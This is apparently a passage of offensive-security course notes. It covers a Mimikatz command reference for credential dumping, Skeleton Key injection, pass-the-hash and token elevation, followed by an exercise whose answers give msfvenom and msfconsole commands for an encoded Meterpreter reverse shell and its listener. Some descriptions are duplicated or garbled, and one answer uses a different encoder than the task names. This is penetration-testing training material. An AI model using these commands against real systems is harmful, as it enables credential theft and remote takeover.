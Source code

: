 MISC::Skeleton | Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a "master password" (aka Skeleton Keys) as well as their usual password.
PRIVILEGE::Debug | Get debug rights (this or Local System rights is required for many Mimikatz commands).
SEKURLSA::Ekeys | List Kerberos encryption keys
SEKURLSA::Kerberos | List Kerberos credentials for all authenticated users (including services and computer account)
SEKURLSA::Krbtgt | Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a "master password" (aka Skeleton Keys) as well as their usual password.
SEKURLSA::Pth | Pass- theHash and Over-Pass-the-Hash
SEKURLSA::Tickets | Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer's AD computer account. Unlike kerberos::list, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).list Kerberos encryptio keys
TOKEN::List | List all tokens of a system
TOKEN::Elevate | Impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box
TOKEN::Elevate /domainadmin | Impersonate a token with Domain Admin credentials
___

### Lesson 5 Summary

* In this lesson we learned about:
  * Metasploit Venom
  * Reverse and Bind Shells
  * Privilege Escalation
  * Mimikatz & Kiwi Script Use

___

## Exercise - Module 2, Lesson 5 – Privilege Escalation

___

1. Using the Metasploit Venom payload generator and the 64-bit version of
the Meterpreter “reverse_tcp” payload, generate a custom, executable
payload for the Windows 10 VM using port 443. The payload should be
encoded through three iterations of “shikata_ga_nai”.
2. Name the new payload “totallynotavirus.exe” and save it in your viruses
folder. What command syntax was used?  
`msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp -e x64/xor LHOST=192.168.229.30 LPORT=443 -i 3-f exe -o totallynotavirus`
3. Create a listener on port 443 for the “reverse_tcp” payload using “exploit/multi/handler”. Ensure that the listener runs. Hint: from your current context, use the “msfconsole -x” command followed by your variables. What command syntax was used?  
`msfconsole -x "use exploit/multi/handler; use payload windows/x64/meterpreter_reverse_tcp; set LPORT 443; set LHOST 192.168.229.30; run`

### Walkthrough
